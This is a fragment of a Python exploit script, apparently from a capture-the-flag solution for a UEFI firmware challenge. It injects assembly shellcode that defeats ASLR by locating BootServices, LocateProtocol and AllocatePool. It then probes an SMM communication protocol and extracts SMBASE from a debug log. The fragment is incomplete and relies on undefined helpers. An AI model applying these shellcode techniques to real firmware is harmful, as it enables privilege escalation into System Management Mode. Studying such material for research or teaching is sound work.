 ```python
    ru(b"Address where I'm gonna run your code: 0x")
    shellcode_addr = int(rl(), 16)
    # lg("SystemTable_addr", SystemTable_addr)
    # lg("shellcode_addr", shellcode_addr)

    # lianpwn.lg_inf("STEP 1: Defeat ASLR and Locate Funcs")

    result = execute_shellcode(
        asm(f"""
        // locate BootServices, LocateProtocol, AllocatePool
        mov r15, [{SystemTable_addr + 0x60}];
        mov r14, [r15 + 0x140]; // LocateProtocol
        mov r13, [r15 + 0x40];  // AllocatePool
    """)
    )
    AllocatePool_addr = result[12]
    LocateProtocol_addr = result[13]
    BootServices_addr = result[14]
    # lianpwn.lg_suc("AllocatePool_addr", AllocatePool_addr)
    # lianpwn.lg_suc("LocateProtocol_addr", LocateProtocol_addr)
    # lianpwn.lg_suc("BootServices_addr", BootServices_addr)

    tmp_buf = shellcode_addr + 0x400
    result = execute_shellcode(
        asm(f"""
        // LocateProtocol(gEfiSmmCommunicationProtocolGuid, NULL, mSmmCommunication)
        lea rcx, [rip + data];
        xor rdx, rdx;
        lea r8, [rip + buf_temp];
        mov rax, {LocateProtocol_addr};
        call rax;

        lea r15, [rip + buf_temp];
        mov r14, [r15];
        mov r13, [r14];

        ret;

    data:
        .octa {guid_value};
    buf_temp:
    """)
    )
    # lianpwn.lg(f"{guid_name}", int(guid_value, 16))
    if result[0] == 0:
        import re

        smbase_pattern = re.compile(r"SMBASE=([0-9A-F]+)")
        match = smbase_pattern.search(open("./debug.log", "r").read())
        smbase_value = match.group(1)
        # if result[13] < 0x07000000:
        #     continue
        # import re
        #
        lianpwn.lg("result[13]", result[13])
        lianpwn.lg("result[14]", result[14])
        lianpwn.lg(f"{guid_name}", int(guid_value, 16))
        lianpwn.lg("SMBASE", int(smbase_value, 16))
        # smbase_pattern = re.compile(
        #     r"Loading SMM driver at 0x([0-9A-F]+) EntryPoint=0x([0-9A-F]+) PiSmmCpuDxeSmm.efi"
        # )
        # match = smbase_pattern.search(open("./debug.log", "r").read())
        # smbase_value = int(match.group(1), 16)
```